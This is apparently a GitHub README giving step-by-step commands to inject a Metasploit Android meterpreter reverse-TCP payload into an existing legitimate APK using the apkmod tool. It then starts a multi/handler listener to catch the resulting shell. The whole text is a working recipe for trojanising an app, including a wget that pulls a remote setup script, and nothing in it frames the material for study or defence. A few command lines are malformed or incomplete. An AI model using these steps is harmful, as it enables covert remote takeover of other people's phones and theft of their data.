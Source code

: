# Metasploit-binding-payload-in-existing-apk
Metasploit binding payload in existing apk  using apkmod method

$ apt update &&apt upgrade --y
$ pkg install wget
$ pkg install unstable-repo
$ wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh
$ apk mod -u
$ A
$ apkmod -b /sdcard/hack/org.apk -o /sdcard/hack/binded_org.apk LHOST=127.0.0.1 LPORT=4444

$ msfconsole

$ use exploit/multi/handler
$ set payload android/meterpreter/reverse_tcp
$ set lhost
$ set lport
$ exploit


                                               ---Jack Daniel



